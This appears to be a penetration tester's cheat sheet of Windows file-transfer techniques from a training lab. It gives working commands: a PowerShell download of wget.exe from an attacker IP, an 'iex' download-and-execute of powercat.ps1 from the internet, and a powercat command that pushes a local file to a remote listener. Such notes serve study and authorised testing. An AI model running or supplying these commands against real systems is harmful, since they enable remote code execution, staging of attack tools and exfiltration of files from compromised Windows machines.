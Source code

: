 # File Transfer Techniques on Windows


1. 
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.164/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

2. Using wget.exe (not typically installed but if you can get it over using anotehr command first, it'll make your life much easier)
```cmd
wget.exe <url with port included>
```

3. Powershell Download string
```powershell
iex (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/po
wercat/master/powercat.ps1')
```
## Above command is good if computer is internet connected
## As a note, IEX stands for "Invoke Expression"

4. Powercat (I barely use it but this is an option)
```cmd
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
# If you have a listener set up on the remote machine you can use powercat to transfer files to that machine. 
# "-c" means client mode, connect to the ip 10.11.0.4 "-i" indicates the local file that will be transferred to the remote machine. 
